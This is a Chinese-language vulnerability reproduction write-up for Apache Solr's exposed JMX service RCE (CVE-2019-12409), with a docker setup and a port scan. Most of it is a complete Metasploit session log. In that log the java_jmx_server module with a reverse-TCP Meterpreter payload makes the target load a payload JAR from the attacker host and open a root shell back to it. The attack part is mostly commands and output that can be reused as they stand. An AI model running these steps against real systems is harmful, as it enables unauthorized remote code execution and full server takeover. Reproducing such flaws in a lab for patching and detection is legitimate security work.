

# Apache Solr JMX服务 RCE CVE-2019-12409

## 漏洞描述

Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX 作为 Java的一种Bean管理机制，如果JMX服务端口暴露，那么远程攻击者可以让该服务器远程加载恶意的Bean文件，随着Bean的滥用导致远程代码执行。

## 漏洞影响

```
Apache Solr 8.1.1
Apache Solr 8.2.0
```

## 环境搭建

[下载 Apache Solr 8.2.0](http://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip)

也可以docker搭建

```plain
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

查看搭建的Solr是否存在漏洞,查看solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置是否为“Ture”，如果为Ture，则存在漏洞

查看漏洞端口18983是否开放

```python
nmap xxx.xxx.xxx.xxx -p 18983
```


```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)
```


